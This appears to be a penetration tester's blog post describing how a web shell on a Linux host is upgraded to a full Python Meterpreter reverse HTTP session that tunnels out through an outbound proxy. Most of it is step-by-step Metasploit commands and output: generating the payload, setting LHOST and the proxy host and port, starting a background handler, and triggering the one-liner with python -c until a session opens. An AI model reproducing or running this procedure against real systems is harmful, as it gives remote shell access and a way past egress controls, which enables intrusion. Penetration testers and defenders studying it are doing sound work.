 # Metasploit - Python Meterpreter through Proxy

I recently got into a situation where I had a web shell on a Linux system and wanted to get a full Meterpreter. Initially, we thought there was no outbound access, but a fellow teammate discovered a proxy server after reverse engineering some .jar files found on the system. Now I needed a reverse shell that allowed me to specify a proxy for outbound connections. I sent a quick message to @TheColonial on IRC, and he let me know that Python HTTP/HTTPS Meterpreters could do what I needed.

## Testing Python on the webshell

First I used the web shell to test the ability to run Python

```python -c "import os;os.system('ls')"```

## Generating the payload

When this worked I moved onto generating the meterpreter payload:

```msf > use payload/python/meterpreter/reverse_http```

Next I set my attack host IP address and the IP address of the outbound proxy:

```
msf payload(reverse_http) > show options

Module options (payload/python/meterpreter/reverse_http):

   Name              Current Setting            Required  Description
   ----              ---------------            --------  -----------
   LHOST             *attack host ip*           yes       The local listener hostname
   LPORT             80                         yes       The local listener port
   LURI                                         no        The HTTP Path
   PayloadProxyHost  *outbound proxy*           no        The proxy server's IP address
   PayloadProxyPort  80                         yes       The proxy port to connect to
```

Last step was to generate the payload:

```
msf payload(reverse_http) > generate -b '\x00\xff' -t raw -f meterp-python-https-80.py
[*] Writing 606 bytes to meterp-python-http-80.py...
```

This will generate a one liner that you can use to trigger the payload.

## Setting up the Handler

The next step is to setup the handler:
```
msf payload(reverse_http) > use exploit/multi/handler
```

Then I set the handler payload option:
```
msf exploit(handler) > set payload python/meterpreter/reverse_http
payload => python/meterpreter/reverse_http
```

Followed by the other needed options:

```
msf exploit(handler) > set LHOST *attack host ip*
LHOST => *attack host ip*
msf exploit(handler) > set LPORT 80
LPORT => 80
msf exploit(handler) > set PayloadProxyHost *outbound proxy*
PayloadProxyHost => *outbound proxy*
msf exploit(handler) > set Payloadproxyport 80
Payloadproxyport => 80
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (python/meterpreter/reverse_http):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   LHOST             *attack host ip* yes       The local listener hostname
   LPORT             80               yes       The local listener port
   LURI                               no        The HTTP Path
   PayloadProxyHost  *outbound proxy* no        The proxy server's IP address
   PayloadProxyPort  80               yes       The proxy port to connect to


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
   
```
I set a few additional options, such as ExitOnSession, to false so the handler remains open for multiple connections in case the first one fails. Also, I set verbose to true to get more verbose output for troubleshooting:

```
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > set VERBOSE true
verbose => true
```

Lastly, I start the handler with exploit -j, so it runs in the background:

```
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
```

## Triggering the payload

Next take the payload one-liner that was generated and use python -c to trigger the payload in your web shell(Other forms of command execution could be potentially used to do this as well):

```
python -c "*python meterpreter one liner*"
```

And wait for the payload to stage:

```
[*] http://*attack host*:80 handling request from *outbound proxy*; (UUID: 6dvezhby) Staging Python payload...
[*] Meterpreter session 1 opened (*victim*:80 -> *outbound proxy*:12480) at 2016-10-05 00:12:02 +0000
```

Enjoy your Meterpreter :)

